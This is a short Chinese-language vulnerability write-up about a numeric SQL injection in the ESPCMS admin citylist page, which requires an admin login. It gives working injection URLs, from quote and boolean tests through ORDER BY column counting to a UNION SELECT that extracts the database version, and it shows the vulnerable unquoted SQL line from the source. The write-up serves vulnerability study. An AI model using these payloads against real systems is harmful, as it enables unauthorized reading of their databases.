


## 1 漏洞利用
**需要登录管理员用户后才能利用。**

- 1）漏洞验证
```
http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1'
// 加引号后，报错

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1 and 1=1
// 和 parentid=1 的结果一致

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1 and 1=2
// 因为查询条件为 False，没有结果
```
- 2）漏洞利用
```
http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1 order by 6
// 当尝试到 order by 6 后，返回出错信息，说明数据表为5列

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=-1 union select 1,2,3,4,5
// 显示 3，说明 parentid 是表的第 3 列

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=-1 union select 1,2,version(),4,5
// 修改 3 为要获取的信息
```



## 2 代码审计
```php
/adminsoft/control/citylist.php	
$sql = "select * from $db_table where parentid=$parentid";
```
根本的问题是 $parentid 没有用引号进行闭合，后续对该变量的过滤都形同虚设，是一个数值型 SQL 注入漏洞。


## 3 该版本已修复漏洞
- 1）二次urldecode注入漏洞
